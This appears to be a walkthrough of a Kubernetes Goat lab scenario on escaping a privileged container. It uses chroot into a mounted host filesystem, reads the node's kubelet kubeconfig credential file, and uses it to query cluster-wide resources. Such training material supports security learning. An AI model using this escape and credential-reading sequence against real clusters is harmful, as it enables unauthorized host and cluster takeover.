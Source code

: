 # Setup of Kubernetes Goat 

from https://madhuakula.com/kubernetes-goat/

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

```
capsh --print
```

```
mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

You can gain access to the host system privileges using chroot

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```